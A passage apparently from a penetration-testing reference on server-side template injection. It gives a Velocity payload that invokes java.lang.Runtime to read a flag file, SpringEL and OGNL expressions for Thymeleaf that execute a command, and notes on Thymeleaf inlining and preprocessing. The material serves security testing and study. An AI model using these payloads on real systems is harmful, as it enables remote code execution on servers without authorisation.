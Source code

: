 ```
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

**More information**

- In Velocity section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
    
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf)

Thymeleaf

In Thymeleaf, a common test for SSTI vulnerabilities is the expression `${7*7}`, which also applies to this template engine. For potential remote code execution, expressions like the following can be used:

- SpringEL:
    
   
    
    ```
    ${T(java.lang.Runtime).getRuntime().exec('calc')}
    ```
    
- OGNL:
    
   
    
    ```
    ${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
    ```
    

Thymeleaf requires these expressions to be placed within specific attributes. However, _expression inlining_ is supported for other template locations, using syntax like `[[...]]` or `[(...)]`. Thus, a simple SSTI test payload might look like `[[${7*7}]]`.

However, the likelihood of this payload working is generally low. Thymeleaf's default configuration doesn't support dynamic template generation; templates must be predefined. Developers would need to implement their own `TemplateResolver` to create templates from strings on-the-fly, which is uncommon.

Thymeleaf also offers _expression preprocessing_, where expressions within double underscores (`__...__`) are preprocessed. This feature can be utilized in the construction of expressions, as demonstrated in Thymeleaf's documentation:

